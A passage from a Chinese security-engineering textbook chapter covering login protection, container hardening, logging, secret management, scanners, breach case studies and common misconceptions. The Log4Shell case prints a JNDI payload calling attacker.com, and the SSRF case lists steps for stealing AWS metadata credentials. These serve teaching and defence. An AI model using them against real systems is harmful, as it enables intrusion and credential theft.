from collections import defaultdict
import hashlib

class LoginProtector:
    """登录保护：限速和账户锁定"""
    
    def __init__(self, max_ip_per_min=10, max_user_per_hour=100, lockout_minutes=30):
        self.attempts = defaultdict(list)
        self.locked_until = {}
        self.max_ip_per_min = max_ip_per_min
        self.max_user_per_hour = max_user_per_hour
        self.lockout_minutes = lockout_minutes
    
    def check_rate_limit(self, ip: str, username: str) -> bool:
        """检查登录频率限制"""
        now = time.time()
        
        # 检查账户锁定
        if username in self.locked_until:
            if now < self.locked_until[username]:
                remaining = int(self.locked_until[username] - now)
                raise RateLimitError(f"账户已锁定，{remaining}秒后重试")
            del self.locked_until[username]
        
        # IP级别限速（每分钟10次）
        ip_key = f"ip:{ip}"
        self.attempts[ip_key] = [t for t in self.attempts[ip_key] if now - t < 60]
        if len(self.attempts[ip_key]) >= self.max_ip_per_min:
            raise RateLimitError("IP请求过于频繁")
        
        # 用户级别限速（每小时100次）
        user_key = f"user:{username}"
        self.attempts[user_key] = [t for t in self.attempts[user_key] if now - t < 3600]
        if len(self.attempts[user_key]) >= self.max_user_per_hour:
            self.locked_until[username] = now + self.lockout_minutes * 60
            raise RateLimitError(f"账户已锁定{self.lockout_minutes}分钟")
        
        self.attempts[ip_key].append(now)
        self.attempts[user_key].append(now)
        return True
    
    def record_failed(self, username: str):
        """记录失败尝试"""
        user_key = f"user:{username}"
        self.attempts[user_key].append(time.time())

# 密码策略
PASSWORD_POLICY = {
    "min_length": 12,
    "require_uppercase": True,
    "require_lowercase": True,
    "require_digit": True,
    "require_special": True,
    "check_breached": True,   # 检查Have I Been Pwned数据库
    "check_common": True,     # 检查常见密码列表
}

def check_password_breached(password: str) -> bool:
    """检查密码是否在已泄露密码数据库中（k-anonymity方式）"""
    import requests
    sha1 = hashlib.sha1(password.encode()).hexdigest().upper()
    prefix, suffix = sha1[:5], sha1[5:]
    response = requests.get(f"https://api.pwnedpasswords.com/range/{prefix}")
    return suffix in response.text
```

### 34.3.3 密码安全最佳实践

| 实践 | 说明 |
|------|------|
| 使用Argon2id哈希 | 抵抗GPU/ASIC暴力破解 |
| 加盐存储 | 每个密码独立的随机盐值 |
| 常量时间比较 | 防止时序攻击 |
| 密码泄露检查 | 与Have I Been Pwned比对 |
| 强密码策略 | 最少12字符，检查常见密码 |
| 账户锁定 | 多次失败后临时锁定 |
| 登录通知 | 异常登录发送告警 |
| 密码历史 | 禁止重复使用最近N个密码 |

***

## 34.4 容器安全实践

### 34.4.1 Docker安全配置

```yaml
# docker-compose.yml 安全配置
services:
  app:
    image: myapp:1.0.0@sha256:abc123...
    read_only: true
    security_opt:
      - no-new-privileges:true
    cap_drop:
      - ALL
    cap_add:
      - NET_BIND_SERVICE
    tmpfs:
      - /tmp
    networks:
      - internal     # 只连接内部网络
    deploy:
      resources:
        limits:
          memory: 512M
          cpus: '0.5'
    healthcheck:
      test: ["CMD", "/healthcheck"]
      interval: 30s
      timeout: 10s
      retries: 3

networks:
  internal:
    driver: bridge
    internal: true  # 无外部访问
```

### 34.4.2 Kubernetes安全上下文

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: secure-pod
  labels:
    app: myapp
spec:
  serviceAccountName: myapp-sa     # 使用专用ServiceAccount
  automountServiceAccountToken: false  # 不自动挂载Token
  securityContext:
    runAsNonRoot: true
    runAsUser: 1000
    fsGroup: 2000
    seccompProfile:
      type: RuntimeDefault
  containers:
  - name: app
    image: myapp@sha256:abc123
    securityContext:
      allowPrivilegeEscalation: false
      readOnlyRootFilesystem: true
      capabilities:
        drop: ["ALL"]
    resources:
      limits:
        memory: "256Mi"
        cpu: "500m"
    env:
    - name: DB_PASSWORD
      valueFrom:
        secretKeyRef:
          name: db-secret
          key: password
```

### 34.4.3 镜像安全扫描

```bash
# Trivy：全面扫描
trivy image --severity HIGH,CRITICAL --exit-code 1 myapp:latest

# 在CI中使用（阻止高危漏洞镜像推送）
trivy image --exit-code 1 --severity HIGH,CRITICAL myapp:latest &amp;&amp; \
docker push myapp:latest || echo "镜像存在高危漏洞，拒绝推送"

# 检查Dockerfile最佳实践
hadolint Dockerfile

# 检查Kubernetes配置
kube-score score deployment.yaml
```

***

## 34.5 日志与监控

### 34.5.1 安全审计日志

```python
import logging
import json
from datetime import datetime
from typing import Optional

class SecurityLogger:
    """安全审计日志——结构化、可搜索、不可篡改"""
    
    def __init__(self, log_path: str = '/var/log/security.log'):
        self.logger = logging.getLogger('security')
        handler = logging.FileHandler(log_path)
        handler.setFormatter(logging.Formatter('%(message)s'))
        self.logger.addHandler(handler)
        self.logger.setLevel(logging.INFO)
    
    def log_auth_event(self, user: str, success: bool, ip: str, 
                       user_agent: str = "", reason: str = ""):
        """记录认证事件"""
        event = {
            "timestamp": datetime.utcnow().isoformat() + "Z",
            "event_type": "authentication",
            "user": user,
            "success": success,
            "ip": ip,
            "user_agent": user_agent,
            "reason": reason,
            "severity": "info" if success else "warning"
        }
        if success:
            self.logger.info(json.dumps(event))
        else:
            self.logger.warning(json.dumps(event))
    
    def log_permission_denied(self, user: str, resource: str, action: str):
        """记录权限拒绝事件"""
        event = {
            "timestamp": datetime.utcnow().isoformat() + "Z",
            "event_type": "authorization_failure",
            "user": user,
            "resource": resource,
            "action": action,
            "severity": "warning"
        }
        self.logger.warning(json.dumps(event))
    
    def log_data_access(self, user: str, resource: str, action: str, 
                        record_count: int = 0):
        """记录数据访问事件（审计要求）"""
        event = {
            "timestamp": datetime.utcnow().isoformat() + "Z",
            "event_type": "data_access",
            "user": user,
            "resource": resource,
            "action": action,
            "record_count": record_count,
            "severity": "info"
        }
        self.logger.info(json.dumps(event))

# 安全事件日志最佳实践：
# 1. 记录什么：认证成功/失败、权限拒绝、数据访问、配置变更、异常行为
# 2. 不记录什么：密码、令牌、完整信用卡号、PII
# 3. 日志保护：日志写入后不可修改（追加模式）、异地备份、加密传输
# 4. 日志保留：根据合规要求（GDPR建议最少6个月）
# 5. 实时分析：使用SIEM工具（ELK Stack、Splunk、Wazuh）进行实时告警
```

***

## 34.6 密钥和密文管理

### 34.6.1 密钥管理原则

**密钥管理的安全层级**（从低到高）：

| 层级 | 方式 | 安全性 | 适用场景 |
|------|------|--------|----------|
| 1 | 硬编码在代码中 | ❌ 极不安全 | 绝对禁止 |
| 2 | 环境变量 | ⚠️ 基本 | 开发环境 |
| 3 | 配置文件（加密） | ✅ 可接受 | 小型项目 |
| 4 | 密钥管理服务（KMS） | ✅ 推荐 | 生产环境 |
| 5 | 硬件安全模块（HSM） | ✅✅ 最高 | 金融级安全 |

### 34.6.2 HashiCorp Vault集成

```python
import hvac

class VaultClient:
    def __init__(self, url: str, token: str):
        self.client = hvac.Client(url=url, token=token)
    
    def get_secret(self, path: str) -> dict:
        """获取KV v2密钥"""
        response = self.client.secrets.kv.v2.read_secret_version(path=path)
        return response['data']['data']
    
    def encrypt(self, plaintext: str) -> str:
        """使用Vault Transit引擎加密"""
        import base64
        response = self.client.secrets.transit.encrypt(
            name='my-key',
            plaintext=base64.b64encode(plaintext.encode()).decode()
        )
        return response['data']['ciphertext']
    
    def decrypt(self, ciphertext: str) -> str:
        """使用Vault Transit引擎解密"""
        import base64
        response = self.client.secrets.transit.decrypt(
            name='my-key',
            ciphertext=ciphertext
        )
        return base64.b64decode(response['data']['plaintext']).decode()

# 密钥轮换最佳实践：
# 1. 自动轮换：定期自动更换密钥（如每90天）
# 2. 双密钥过渡：新旧密钥同时有效，平滑迁移
# 3. 紧急轮换：发现泄露时立即轮换
# 4. 审计日志：记录所有密钥访问和使用
# 5. 最小权限：每个服务只获取需要的密钥
```

### 34.6.3 云密钥管理

```bash
# AWS Secrets Manager
aws secretsmanager get-secret-value --secret-id prod/db/password

# AWS KMS 加密/解密
aws kms encrypt --key-id alias/my-key --plaintext "sensitive data"
aws kms decrypt --ciphertext-blob fileb://encrypted.bin

# GCP Secret Manager
gcloud secrets versions access latest --secret="db-password"

# Azure Key Vault
az keyvault secret show --vault-name myvault --name db-password
```

***

## 34.7 安全自动化工具

### 34.7.1 SAST（静态应用安全测试）

```bash
# Semgrep：多语言SAST
semgrep --config=p/owasp-top-ten target-directory/
semgrep --config=p/python target-directory/

# Bandit：Python专用SAST
bandit -r target-directory/ -f json -o bandit-report.json

# SonarQube：综合代码质量+安全
sonar-scanner -Dsonar.projectKey=myproject -Dsonar.sources=.

# ESLint安全插件（JavaScript/TypeScript）
npm install --save-dev eslint-plugin-security
```

### 34.7.2 DAST（动态应用安全测试）

```bash
# OWASP ZAP：自动化Web应用扫描
docker run -u zap -p 8080:8080 owasp/zap2docker-stable zap-webswing.sh
zap-cli quick-scan http://target-app
zap-cli report -o report.html -f html

# Nuclei：基于模板的漏洞扫描
nuclei -u http://target-app -t cves/

# Nikto：Web服务器扫描
nikto -h http://target-app
```

### 34.7.3 SCA（软件成分分析）

```bash
# Snyk：依赖漏洞扫描
snyk test
snyk monitor  # 持续监控

# OWASP Dependency-Check
dependency-check --project "MyApp" --scan ./src

# pip-audit（Python）
pip-audit

# npm audit（Node.js）
npm audit
npm audit fix  # 自动修复

# cargo audit（Rust）
cargo audit
```

***

## 参考资料

1. OWASP Cheat Sheet Series: https://cheatsheetseries.owasp.org/
2. CIS Benchmarks: https://www.cisecurity.org/cis-benchmarks
3. NIST SP 800-63B: Digital Identity Guidelines
4. Semgrep Rules: https://semgrep.dev/rules
5. HashiCorp Vault: https://www.vaultproject.io/

***

*软件工程核心知识体系 · 第34章 · 核心技巧*


***

# 第34章-系统安全：实战案例

## 案例一：Log4Shell漏洞分析（CVE-2021-44228）

### 背景

2021年12月，Apache Log4j 2被发现存在严重的远程代码执行漏洞（RCE），CVSS评分10.0（满分），影响全球数百万Java应用。被称为"十年最严重的安全漏洞"。

### 漏洞原理

Log4j 2支持JNDI（Java Naming and Directory Interface）查找。当日志消息包含恶意JNDI引用时，会触发远程类加载：

攻击payload: ${jndi:ldap://attacker.com/exploit}

**攻击链**：



### 影响范围

- **直接影响**：所有使用Log4j 2.0-beta9到2.14.1的应用
- **间接影响**：大量框架和中间件（Spring Boot、Elasticsearch、Kafka、Apache Struts等）
- **受影响组织**：Apple、Amazon、Cloudflare、Twitter、Minecraft等
- **攻击活动**：加密货币挖矿、REvil勒索软件团伙、国家背景APT组织

### 修复方案

**紧急缓解**：

```bash
# 方法1：设置JVM参数禁用JNDI查找
export JAVA_OPTS="$JAVA_OPTS -Dlog4j2.formatMsgNoLookups=true"

# 方法2：删除JndiLookup类
zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class

# 方法3：设置环境变量（Log4j 2.10+）
export LOG4J_FORMAT_MSG_NO_LOOKUPS=true
```

**根本修复**：升级到Log4j 2.17.0+（2.17.0修复了所有相关漏洞）

### 教训

1. **依赖管理的重要性**：SCA（软件成分分析）工具应成为CI/CD标配
2. **纵深防御**：WAF规则、网络分段、最小权限——即使Log4j被利用，限制爆炸半径
3. **日志框架的安全性不应被忽视**：日志框架拥有极高的系统权限，需要像对待入口点一样对待
4. **快速响应能力**：从漏洞披露到大规模利用只有几小时，自动化补丁管理至关重要

***

## 案例二：Equifax数据泄露（2017）

### 背景

2017年，信用报告机构Equifax泄露了1.43亿美国消费者的敏感数据（SSN、出生日期、地址、驾照号等），成为历史上最严重的数据泄露事件之一。

### 根本原因

攻击者利用了Apache Struts的已知漏洞（CVE-2017-5638），该漏洞在泄露发生前**两个月**已有补丁发布。Equifax未能及时应用补丁。

### 攻击链



### 失败点分析

| 失败点 | 详细说明 |
|--------|----------|
| 补丁管理失败 | 已知高危漏洞两个月未修补 |
| 凭证管理失败 | 数据库凭证明文存储在配置文件中 |
| 网络分段不足 | 攻击者可从Web服务器自由移动到数据库 |
| 监控失效 | 76天的数据外泄未被发现（SSL证书过期导致IDS失效） |
| 加密缺失 | 1.43亿条敏感记录未加密存储 |
| 应急响应迟缓 | 披露后数天才通知用户 |

### 改进措施

1. **自动化补丁管理系统**：关键漏洞24小时内评估，72小时内部署
2. **密钥管理服务（KMS）**：所有凭证通过Vault/AWS KMS管理
3. **网络微分段**：每个服务只能访问必要的下游服务
4. **DLP（数据防泄漏）系统**：监控大规模数据传输
5. **定期安全审计**：季度渗透测试 + 持续漏洞扫描
6. **证书管理**：自动监控和更新SSL证书

### 经济损失

- 赔偿基金：$425M
- 监管罚款：$475M（CFPB + 各州）
- 总损失：超过$14亿
- CEO被迫辞职

***

## 案例三：SolarWinds供应链攻击（2020）

### 背景

2020年12月，FireEye发现SolarWinds Orion平台的更新包被植入后门（SUNBURST），影响约18,000个组织，包括美国财政部、国土安全部、五角大楼等政府机构。

### 攻击特点

1. **供应链攻击**：攻击者入侵SolarWinds的构建系统，在合法更新中植入后门
2. **代码注入**：SUNBURST后门深度集成在Orion代码中，难以检测
3. **长期潜伏**：后门最早在2020年3月的更新中植入，12月才被发现（潜伏9个月）
4. **高隐蔽性**：使用域名前置（Domain Fronting）、加密C2通信、模仿合法Orion流量

### 技术细节

```c
// SUNBURST后门的核心行为（简化描述）
void ExecuteBackdoor() {
    // 1. 环境检测：检查是否在分析环境中
    if (IsSandboxDetected()) return;
    
    // 2. 延迟激活：首次安装后等待14天
    Sleep(14 * 24 * 60 * 60 * 1000);
    
    // 3. C2通信：通过DNS CNAME记录与C2服务器通信
    //    使用DGA（域名生成算法）生成C2域名
    //    伪装为OrionImprovementBusinessLayer
    char* c2_domain = GenerateDGA(seed);
    
    // 4. 数据收集：枚举系统信息、进程、网络连接
    // 5. 横向移动：使用窃取的凭证访问其他系统
    // 6. 数据外泄：通过HTTPS加密通道传输数据
}
```

### 防御策略

- **软件供应链安全**：SBOM（软件物料清单）、代码签名（Sigstore/cosign）、SLSA框架
- **零信任架构**：不信任任何更新，验证签名和完整性
- **行为分析**：检测异常的DNS流量（新域名、高频查询）
- **网络监控**：分析出站连接模式（异常目标、异常时间、异常数据量）
- **软件构建安全**：保护CI/CD环境，使用可重现构建（Reproducible Builds）

***

## 案例四：SSRF攻击AWS元数据服务

### 攻击场景

某云应用存在SSRF漏洞（用户可控制服务器发起的HTTP请求），攻击者可访问AWS元数据服务（169.254.169.254）获取IAM临时凭证。

### 攻击步骤

```bash
# 1. 发现SSRF漏洞
GET /fetch?url=http://internal-service/api

# 2. 尝试访问元数据服务
GET /fetch?url=http://169.254.169.254/latest/meta-data/

# 3. 获取IAM角色名
GET /fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/

# 4. 获取临时凭证
GET /fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/s3-access-role
# 返回: {"AccessKeyId":"ASIA...","SecretAccessKey":"...","Token":"..."}

# 5. 使用凭证访问S3存储桶
aws s3 ls --access-key-id ASIA... --secret-access-key ... --session-token ...
```

### 防御方案

```python
from urllib.parse import urlparse
import ipaddress
import socket

def is_safe_url(url: str) -> bool:
    """验证URL是否安全（非内网地址）"""
    parsed = urlparse(url)
    
    # 只允许HTTP/HTTPS
    if parsed.scheme not in ('http', 'https'):
        return False
    
    hostname = parsed.hostname
    if not hostname:
        return False
    
    try:
        ip = ipaddress.ip_address(hostname)
        # 禁止访问私有地址、回环地址、链路本地地址
        if ip.is_private or ip.is_loopback or ip.is_link_local:
            return False
    except ValueError:
        # 主机名方式——还需要DNS解析后检查
        try:
            resolved = socket.getaddrinfo(hostname, None)
            for family, _, _, _, sockaddr in resolved:
                resolved_ip = ipaddress.ip_address(sockaddr[0])
                if resolved_ip.is_private or resolved_ip.is_loopback or resolved_ip.is_link_local:
                    return False
        except socket.gaierror:
            return False
    
    # 禁止访问已知元数据服务
    metadata_hosts = ('169.254.169.254', 'metadata.google.internal', '169.254.169.254.nip.io')
    if hostname in metadata_hosts:
        return False
    
    return True
```

**AWS防护措施**：
- **IMDSv2**：要求先PUT请求获取token，再用token获取元数据（防止SSRF直接读取）
- **VPC端点策略**：限制哪些实例可以访问元数据服务
- **最小权限IAM角色**：限制角色权限，即使凭证泄露也无法造成大规模损害
- **EC2实例元数据限制**：设置hop limit为1（防止容器环境中的SSRF）

***

## 案例五：容器逃逸事件

### 攻击场景

某Kubernetes集群中，攻击者通过应用漏洞获取容器内shell，利用内核漏洞实现容器逃逸，最终控制宿主机。

### 攻击路径



### 防御加固

```yaml
# Pod安全标准（Restricted级别）
apiVersion: v1
kind: Pod
metadata:
  name: hardened-pod
spec:
  hostNetwork: false
  hostPID: false
  hostIPC: false
  securityContext:
    runAsNonRoot: true
    runAsUser: 65534
    seccompProfile:
      type: RuntimeDefault
  containers:
  - name: app
    image: myapp@sha256:abc123  # 使用digest而非tag
    securityContext:
      allowPrivilegeEscalation: false
      readOnlyRootFilesystem: true
      capabilities:
        drop: ["ALL"]
    resources:
      limits:
        cpu: "1"
        memory: "256Mi"
```

**容器逃逸防御清单**：
1. 容器不以root运行
2. 禁止特权容器
3. 启用seccomp和AppArmor
4. 及时更新宿主机内核（修复内核漏洞）
5. 使用gVisor/Kata Containers增强隔离
6. 限制容器的Linux capabilities
7. 只读根文件系统
8. 禁止hostNetwork/hostPID/hostIPC

***

## 案例六：CI/CD流水线攻击

### 攻击场景

攻击者通过窃取GitHub Actions中使用的NPM_TOKEN，向流行npm包注入恶意代码。

### 攻击链



### 防御措施

```yaml
# GitHub Actions安全最佳实践
name: Secure Build
on: [push]

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      
      # 使用OIDC而非长期Token
      - name: Configure AWS credentials
        uses: aws-actions/configure-aws-credentials@v4
        with:
          role-to-assume: arn:aws:iam::123456789:role/github-actions
          aws-region: us-east-1
      
      # 限制GITHUB_TOKEN权限
permissions:
  contents: read
  packages: write

# 关键安全措施：
# 1. 使用OIDC而非长期Token（GitHub → AWS/GCP/Azure）
# 2. 限制GITHUB_TOKEN权限（最小权限）
# 3. 审查所有PR（尤其是修改CI配置的）
# 4. 使用Dependabot自动更新Actions版本
# 5. 禁止从fork的仓库运行workflow
# 6. 日志脱敏（避免打印敏感信息）
```

***

## 参考资料

1. CISA Log4Shell Guidance: https://www.cisa.gov/news-events/cybersecurity-advisories/aa21-356a
2. Equifax Data Breach Settlement: https://www.equifaxbreachsettlement.com/
3. SolarWinds Advisory (CISA): https://www.cisa.gov/news-events/cybersecurity-advisories/aa20-304a
4. OWASP SSRF Prevention Cheat Sheet: https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html
5. MITRE ATT&CK: Supply Chain Compromise: https://attack.mitre.org/techniques/T1195/

***

*软件工程核心知识体系 · 第34章 · 实战案例*


***

# 第34章-系统安全：常见误区

## 误区一：安全性是测试出来的

### 问题描述

许多团队认为在发布前进行安全测试就足够了，将安全视为最后阶段的检查项。

### 为什么不够

- 安全漏洞往往源于**设计缺陷**，测试无法完全覆盖
- 渗透测试只能发现已知类型的漏洞，无法发现零日漏洞
- 修复设计阶段的漏洞成本是开发阶段的100倍（IBM Systems Sciences Institute数据）
- 测试时间有限，覆盖率不可能达到100%

### 正确做法

将安全融入整个开发生命周期（SDL），实现"安全左移"：

1. **需求阶段**：安全需求分析、合规要求识别
2. **设计阶段**：威胁建模、架构安全评审
3. **开发阶段**：安全编码标准、SAST自动扫描
4. **测试阶段**：DAST、渗透测试、模糊测试
5. **发布阶段**：安全审查、配置审计
6. **运行时**：监控、WAF、RASP、事件响应

***

## 误区二：使用隐藏路径代替认证

### 问题描述

通过不公开的URL路径保护敏感资源，例如：

https://example.com/admin-portal-secret-123/
https://example.com/api/v1/internal/users

### 为什么不够

- 路径可能被泄露（日志、Referer头、代码仓库、浏览器历史）
- 可被枚举或猜测（`/admin`、`/internal`、`/debug`是常见模式）
- 违反纵深防御原则——安全不应该依赖于信息的保密性

### 正确做法

任何敏感端点都必须有**认证和授权**双重保护：

```python
from functools import wraps

def admin_required(f):
    """要求管理员权限"""
    @wraps(f)
    def decorated(*args, **kwargs):
        if not current_user.is_authenticated:
            return {"error": "Authentication required"}, 401
        if not current_user.has_role('admin'):
            return {"error": "Admin access required"}, 403
        return f(*args, **kwargs)
    return decorated

@app.route('/api/v2/admin/users')
@login_required
@admin_required
def admin_users():
    ...
```

***

## 误区三：只依赖WAF保护应用

### 问题描述

认为部署了Web应用防火墙（WAF）就万事大吉，不需要在应用层进行安全防护。

### 为什么不够

- WAF规则可被绕过（编码变形、分块传输、参数污染）
- WAF无法防护业务逻辑漏洞（如BOLA/IDOR）
- WAF无法防护内部攻击（绕过WAF直接访问后端）
- 零日漏洞可能没有WAF规则
- WAF可能被错误配置（过于宽松或过于严格）

### 正确做法

WAF是**纵深防御的一层**，应用层安全仍然必要：

- 输入验证和输出编码（应用自身的防线）
- 参数化查询（防止SQL注入的根本方法）
- 最小权限原则（限制攻击者的影响范围）
- 安全的会话管理（Cookie安全属性、会话超时）
- 速率限制（防止暴力破解和DoS）

***

## 误区四：信任内部网络

### 问题描述

认为内部网络是安全的，内部服务不需要认证或加密。

### 为什么不够

- 内部人员可能是威胁（恶意员工、被收买的员工）
- 横向移动是常见攻击手法（攻击者一旦突破边界，内网畅通无阻）
- 云环境的网络边界模糊（混合云、多云环境）
- 供应链攻击从内部发起（SolarWinds、Codecov）
- 内部网络可能已被入侵（APT组织长期潜伏）

### 正确做法

采用零信任架构：

1. **永远验证**：不信任网络位置，每次访问都验证身份
2. **最小权限**：只授予完成任务所需的最小权限
3. **假设已被入侵**：设计系统时假设攻击者已经在内网
4. **mTLS服务间通信**：服务间互相验证身份
5. **网络微分段**：将网络划分为细粒度的安全区域

***

## 误区五：密钥存储在环境变量中就安全了

### 问题描述

将敏感密钥存储在环境变量中，认为比硬编码更安全。

### 风险

- 环境变量可通过`/proc/pid/environ`读取（同机其他进程）
- 在Docker中可通过`docker inspect`查看
- 错误日志可能泄露环境变量（如异常堆栈打印env）
- CI/CD系统可能记录环境变量（如GitHub Actions日志）
- 进程core dump可能包含环境变量

### 正确做法

使用**专用的密钥管理服务**：

```python
# ❌ 环境变量（仅限开发环境）
API_KEY = os.environ.get("API_KEY")  # 不推荐用于生产

# ✅ 密钥管理服务（生产推荐）
import boto3

client = boto3.client('secretsmanager')
response = client.get_secret_value(SecretId='prod/db/password')
secret = response['SecretString']

# ✅ 短期凭证（最佳实践）
# 使用AWS STS获取临时凭证，自动过期
sts = boto3.client('sts')
creds = sts.assume_role(
    RoleArn='arn:aws:iam::123:role/myapp',
    RoleSessionName='myapp-session',
    DurationSeconds=3600  # 1小时后自动失效
)
```

***

## 误区六：依赖客户端验证

### 问题描述

仅在前端进行输入验证，后端不做验证。

### 为什么不够

- 客户端验证可被绕过（修改请求、使用curl、禁用JS）
- 攻击者可以直接调用API（跳过前端界面）
- 前端验证仅用于用户体验（快速反馈），不能替代后端验证

### 正确做法

**前后端都进行验证**，后端验证是安全底线：

```python
# 后端验证是必须的
@app.route('/api/users', methods=['POST'])
def create_user():
    data = request.get_json()
    
    # 后端验证（安全底线）
    if not validate_email(data.get('email')):
        return {"error": "Invalid email"}, 400
    
    if len(data.get('password', '')) < 8:
        return {"error": "Password too short"}, 400
    
    if not re.match(r'^[a-zA-Z\s]+$', data.get('name', '')):
        return {"error": "Invalid name"}, 400
    
    # 处理请求...
    return {"success": True}, 201
```

***

## 误区七：日志记录过多敏感信息

### 问题描述

在日志中记录密码、令牌、信用卡号、身份证号等敏感数据。

### 风险

- 日志文件可能被未授权访问（日志聚合系统被入侵）
- 日志聚合系统本身可能成为攻击目标
- 日志保留时间长（合规要求通常6个月以上），泄露风险持续
- 违反数据保护法规（GDPR、CCPA、PCI-DSS）

### 正确做法

```python
import logging
import re

logger = logging.getLogger(__name__)

def mask_sensitive(value: str, visible_chars: int = 4) -> str:
    """脱敏处理：只显示前几位和后几位"""
    if len(value) <= visible_chars * 2:
        return '*' * len(value)
    return value[:visible_chars] + '*' * (len(value) - visible_chars * 2) + value[-visible_chars:]

def mask_email(email: str) -> str:
    """邮箱脱敏"""
    parts = email.split('@')
    if len(parts) != 2:
        return '***'
    return mask_sensitive(parts[0], 2) + '@' + parts[1]

def process_payment(user_id, card_number, amount):
    # ❌ 不要记录完整卡号
    # logger.info(f"card={card_number}")
    
    # ✅ 只记录掩码后的卡号（PCI-DSS要求只显示前6后4）
    masked = card_number[:6] + '*' * (len(card_number) - 10) + card_number[-4:]
    logger.info(f"Payment: user={user_id}, card={masked}, amount={amount}")
    
    # ✅ 邮箱脱敏
    logger.info(f"User registered: email={mask_email(user_email)}")
```

***

## 误区八：不更新依赖库

### 问题描述

项目依赖的第三方库长期不更新，使用存在已知漏洞的版本。

### 案例

- Equifax数据泄露：未修补已知漏洞（Apache Struts CVE-2017-5638）
- event-stream事件：被投毒的npm包窃取 cryptocurrency 钱包
- ua-parser-js：被植入挖矿代码和密码窃取器

### 正确做法

```bash
# 定期检查依赖漏洞
pip-audit              # Python
npm audit              # Node.js
cargo audit            # Rust
trivy fs .             # 多语言通用

# 自动化依赖更新（GitHub Dependabot）
# .github/dependabot.yml
```

```yaml
version: 2
updates:
  - package-ecosystem: "pip"
    directory: "/"
    schedule:
      interval: "weekly"
    open-pull-requests-limit: 10
  - package-ecosystem: "npm"
    directory: "/"
    schedule:
      interval: "weekly"
  - package-ecosystem: "github-actions"
    directory: "/"
    schedule:
      interval: "monthly"
```

***

## 误区九：认为容器是虚拟机

### 问题描述

认为容器提供了与虚拟机相同级别的隔离。

### 为什么不够

| 对比项 | 虚拟机 | 容器 |
|--------|--------|------|
| 内核 | 独立内核 | 共享宿主机内核 |
| 隔离级别 | 硬件级（hypervisor） | 操作系统级（Namespace+Cgroup） |
| 攻击面 | 小（hypervisor攻击面有限） | 大（共享内核的所有漏洞） |
| 容器逃逸 | 不可能（除非hypervisor漏洞） | 可能（内核漏洞、配置错误） |
| 资源开销 | 高 | 低 |

### 正确做法

- **不要依赖容器作为安全边界**——它是隔离手段，不是安全边界
